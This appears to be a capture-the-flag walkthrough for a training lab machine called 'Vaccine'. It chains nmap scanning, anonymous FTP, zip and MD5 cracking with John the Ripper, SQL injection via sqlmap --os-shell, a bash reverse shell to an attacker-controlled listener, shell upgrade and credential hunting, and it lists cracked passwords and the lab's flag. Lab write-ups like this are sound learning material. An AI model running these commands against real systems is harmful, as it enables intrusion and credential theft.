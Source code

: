 ## Vaccine Solution

### Besides SSH and HTTP, what other service is hosted on this box?
1. Run an nmap scan with the `-sV` (version of services) `-sC`(default scripts for service discovery and vulnerability detection) 
   ```bash
   nmap -sV -sC {target_machine_ip}
   nmap -sC -sV 10.129.251.21
   ```
![Screenshot 2024-02-19 at 8 50 14 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6e42d6b3-b7cf-4f42-978f-8213b6bb9f10)

**Answer: ftp**

### This service can be configured to allow login with any password for specific username. What is that username? 

As with the nmap results above the `sC` option was able to determine that **Anonymous FTP login allowed**. If you do a google search the username for this is usually `anonymous`

**anonymous**

### What is the name of the file downloaded over this service?

1. Let's connect via ftp

```bash
ftp {target_machine_ip}
```

2. For username just use `anonymous` and just enter blank password.
3. Enter `ls` and you will find `backup.zip`
4. Run `get backup.zip`

![Screenshot 2024-02-19 at 11 41 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5a467605-0e2d-44f8-b10c-26c3235f9790)



**Answer: backup.zip**

### What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

1. We try to unzip the backup.zip however a password is required.
   ![Screenshot 2024-02-20 at 12 00 57 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ae3c46ff-0939-4956-8cc9-8d8c92440424)


2. Do a quick google search and you will find the answer

**Answer: zip2john** 


### What is the password for the admin user on the website?

1. Let's run the `zip2john` script to crack the password. First let's obtain the password hashes.
   ```bash
   zip2john backup.zip > zip.txt
   ```
 
   ![Screenshot 2024-02-20 at 11 08 05 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/1a4ac24e-c684-4583-8f3d-77fd3d0e2db3)

2. Then let's crack the password for the backup.zip
   ```bash
   john zip.txt   
   ```
   ![Screenshot 2024-02-20 at 11 08 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ed883cff-3296-4b69-b6cb-88d6a3d2633a)


3. Now let's unzip backup.zip with the password `741852963`. This gives us two files `index.php` and `style.css`
   ```bash
   unzip backup.zip
   ```
![Screenshot 2024-02-20 at 11 10 22 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d214ebb6-65ae-4578-ab97-ad4f922a922b)

4. Now let's investigate the index.php `vim index.php`. Here we find a hashed password `2cb42f8734ea607eefed3b70af13bbd3` for the username `admin`. 
   
![Screenshot 2024-02-20 at 11 21 43 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/89307436-b4f4-4097-8c85-98c40531cd06)

5. Let's analyze the hash type by going on any hash analyzer. We use [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier) in this case and find that it is MD5 format.

   ![Screenshot 2024-02-20 at 11 35 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f49117bb-77a6-4b85-beab-f66fc95b04db)


6. Create a file called `admin-hash.txt` then insert the hash found in the previous step. Let's crack the hash password using john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin-hash.txt
```
![Screenshot 2024-02-20 at 11 42 25 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/39740423-3616-4cf0-a75f-c1af601dd2e7)


**Answer: qwerty789**


### What option can be passed to sqlmap to try to get command execution via the sql injection?

1. Login using username `admin` and password `qwerty789`
2. Go to browser and get the cookie `PHPSESSID` value
![Screenshot 2024-02-22 at 12 45 40 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/9954818a-ad05-4789-9292-8b6e202e1b8a)



3. Next as we view with the page after we login, we can see one possible form to attack with SQL injection. We observe that submitting it appends a query parameter `search`
![Screenshot 2024-02-22 at 12 49 49 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6f874149-cb51-4d73-81a8-488be978f271)

4. Let's use sqlmap and run the following.

```bash
sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}" --os-shell

sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}" --os-shell --os-shell
```
5. We have spawned a os-shell with user postgres. However executing `sudo -l` does not yield any meaningful results. The os-shell is limited in commands it can execute. It is not interactive 

![Screenshot 2024-02-22 at 12 56 35 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/508193c6-850c-405d-89c9-8c13377c2e08)

5. Let's go to our attack machine and create a netcat listner server

```bash
  nc -lvnp 5000
```

6. On our target machine running sqlmap os-shell let's connect to our server to spawn a reverse shell.

```bash
 bash -c  "bash -i >& /dev/tcp/{attack_machine_ip}/5000  0>&1"

```

7. We have spawned a reverse shell however we do not have an interactive shell yet.
![Screenshot 2024-02-22 at 1 11 58 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/e4502837-7e73-4692-8d16-6c07b0d3aae5)

8. Run the following to have an interactive shell. 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo
export TERM=xterm
```

9. We now have an interactive shell. Hovever we have to know the password of user `postgres` to run `sudo -l`
    
![Screenshot 2024-02-22 at 2 00 25 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f39b4b0a-70c7-45ab-954f-325620f72896)

10. We have to find the password in the system. And since this server running a website, one of the places we can look at is `/var/www/`
![Screenshot 2024-02-22 at 2 26 14 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/60fdfdc5-b94d-487a-8b70-c05438972859)

11. Let's explore each of the files in the `html` folder. Under the `dashboard.php` file we find. 

![Screenshot 2024-02-22 at 2 32 15 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2582d9ed-becf-4bd2-be03-eb392cde88b0)


12. We test this password by using it for the password prompt for `sudo -l` Where we find that we have sudo rights for vi program.

![Screenshot 2024-02-22 at 2 10 53 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/752994b0-6b2d-4cf4-9aa4-9fa83b68a295)

**Answer: vi** 

### Submit user flag

1. Our connection via reverse shell is always being disconnected from the server. Since we know the password of the user `postgres`, let's just connect via ssh.
   ```bash
   ssh postgres@{target_machine_ip}
   ```

2.  Run `cd ~/` to go to `postgres` user's folder to see if there is something interesting. In here we will find `user.txt`

![Screenshot 2024-02-22 at 2 49 00 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/09726c3d-4635-4b0d-9f71-86de6ab0e1f9)

**Answer:ec9b13ca4d6229cd5cc1e09980965bf7**


